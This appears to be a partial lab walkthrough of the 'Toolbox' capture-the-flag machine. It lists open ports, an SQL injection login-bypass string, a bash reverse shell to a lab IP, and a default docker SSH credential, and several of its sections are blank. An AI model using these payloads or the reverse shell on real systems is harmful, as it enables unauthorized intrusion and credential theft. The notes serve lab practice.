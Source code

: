 Name & IP Address of Machine:
> TOOLBOX : `10.10.10.236`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->



## Synopsis


## Enumeration
Opened Ports: 
- [ ] 21 (FTP)
- [ ] 443 (HTTPS WEBSERVER)



## FootHold
- FTP anonymous login allowed. Only one file is there.
- On port 443, see the certificate and you get to know about a vhost `admin.megalogistic.com`
- Login page has sql injection.(confirm it with a single quote)
- Use password `admin') OR 1=1-- -` and login success.
- Todo list on the dashboard.php page. Possible username `tony`
    ```bash
    ToDo List

    Send credentials to Tony
    Update Printer Drivers

    Administrator
    ```
- 
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.28/9009 0>&1'
ssh docker@172.17.0.1 # docker:tcuser
Grab ssh keys of admintrator

```

```bash

```

## Lateral Movement

## Privilege Escalation




<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->
